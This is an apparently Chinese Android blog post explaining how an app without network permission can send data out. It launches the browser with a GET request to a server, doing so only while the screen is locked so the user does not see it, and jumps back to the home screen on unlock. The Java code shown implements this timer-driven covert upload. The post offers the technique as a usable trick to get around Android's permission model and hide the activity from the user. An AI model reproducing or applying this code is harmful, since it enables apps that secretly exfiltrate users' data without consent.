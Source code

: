 ```yaml
---
layout: post
title: "零权限上传数据"
description: "Android Upload Withoud Permissions"
category: Andorid BasicKnowledge
tags: [Andorid BasicKnowledge]
imagefeature: blog/bg.jpg
comments: true
mathjax: null
featured: false
published: true
---
```


零权限上传数据
===

虽然没有权限，但是也可以通过浏览器用`Get`方式来传递自己的数据，由于这样会打开浏览器，为了防止让用户看到，
所以我们可以再用户锁屏之后开始传递数据，而在用户一解除锁屏我们就回到桌面，这里用`KeyguardManager`来实现，
即在锁屏的时候键盘不能用，而一旦键盘能用了我们就立马回到桌面    
```java
public void onCreate() {
	timer = new Timer();
	km = (KeyguardManager) getSystemService(KEYGUARD_SERVICE);
	random = new Random();
	task = new TimerTask() {
		@Override
		public void run() {
			if (km.inKeyguardRestrictedInputMode()) {
				Intent intent = new Intent();
				intent.setAction(Intent.ACTION_VIEW);
				intent.addCategory(Intent.CATEGORY_BROWSABLE);
				intent.setData(Uri
						.parse("http://192.168.1.254:8080/web/UploadServlet?info="
								+ random.nextInt()));
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}else{		
				//回桌面.
				Intent intent = new Intent();
				intent.setAction("android.intent.action.MAIN");
				intent.addCategory("android.intent.category.HOME");
				intent.addCategory(Intent.CATEGORY_DEFAULT);
				intent.addCategory("android.intent.category.MONKEY");
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}
		}
	};
	timer.schedule(task, 1000, 2000);
	super.onCreate();
}
```

---

- 邮箱 ：charon.chui@gmail.com  
- Good Luck! 